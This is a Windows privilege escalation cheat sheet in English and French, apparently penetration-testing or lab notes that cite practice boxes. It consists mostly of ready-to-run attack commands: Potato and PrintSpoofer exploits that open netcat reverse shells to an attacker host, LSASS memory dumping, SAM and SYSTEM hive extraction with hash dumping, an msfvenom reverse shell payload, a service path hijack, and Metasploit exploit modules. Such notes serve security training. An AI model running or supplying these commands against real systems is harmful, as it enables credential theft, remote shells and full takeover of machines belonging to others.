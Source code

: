 ## Windows User Privileges

### SeImpersonate/SeAssignPrimaryToken
> Allows impersonation of tokens - can be exploited with Potato attacks

```powershell
# Check if you have the privilege
whoami /priv

# For Windows Server 2016 & below
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe attacker-ip 4444 -e cmd.exe" -t *

# For Windows Server 2019 & Windows 10 (1809+)
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe attacker-ip 4444 -e cmd"
c:\tools\RoguePotato.exe -r attacker-ip -e "c:\tools\nc.exe attacker-ip 4444 -e cmd.exe" -l 9999
```

### SeDebugPrivilege
> Allows attaching to and debugging processes - can dump LSASS or inject into processes

```powershell
# Enable the privilege if disabled
Import-Module .\Enable-Privilege.ps1
Enable-Privilege -Name "SeDebugPrivilege"

# Dump LSASS for credentials
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# RCE as SYSTEM
$system_pid = Get-Process winlogon | Select -ExpandProperty Id
[MyProcess]::CreateProcessFromParent($system_pid,"cmd.exe","")
```

### SeTakeOwnershipPrivilege
> Allows to take ownership of any securable object

```powershell
# Enable the privilege
Enable-Privilege -Name "SeTakeOwnershipPrivilege"

# Take ownership of a file
takeown /f "C:\path\to\file.txt"

# Modify permissions to gain full access
icacls "C:\path\to\file.txt" /grant username:F
```

### SeBackupPrivilege
> exfiltrate and dump hashes from hives
```powershell
# Save Hives
reg save hklm\sam C:\temp\sam.hive
reg save hklm\security C:\temp\security.hive
reg save hklm\system C:\temp\system.hive

# dump hashes
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```
### SeRestorePrivilege
> exfiltrate and dump hashes from hives

```powershell
# Nice lil script
https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe?source=post_page-----158516460860---------------------------------------
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.51 LPORT=80 -f exe -o reverse.exe
./SeRestoreAbuse.exe <absolute path of reverse.exe>
```

## Techniques d'élévation de privilèges Windows dans des Box
### Exploitation des groupes de sécurité
Exemple (Return):
```bash
# Vérifier les appartenances aux groupes
whoami /all

# Exploitation du groupe Server Operators
sc.exe config <SERVICE> binPath="C:\path\to\nc.exe -e cmd.exe <IP> <PORT>"
sc.exe stop <SERVICE>
sc.exe start <SERVICE>
```
### Exploitation des droits SeImpersonate
Exemple (Jeeves):
```bash
# Utiliser Metasploit pour l'exploitation
use exploit/windows/local/ms16_075_reflection
set SESSION <SESSION_ID>
set LHOST <IP>
set LPORT <PORT>
exploit

# Utiliser Incognito pour l'usurpation de jetons
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```
### Exploitation des vulnérabilités connues
Exemple (Legacy):
```bash
# Exploitation de MS08-067
use exploit/windows/smb/ms08_067_netapi
set RHOSTS <IP>
set LHOST <IP>
exploit
```

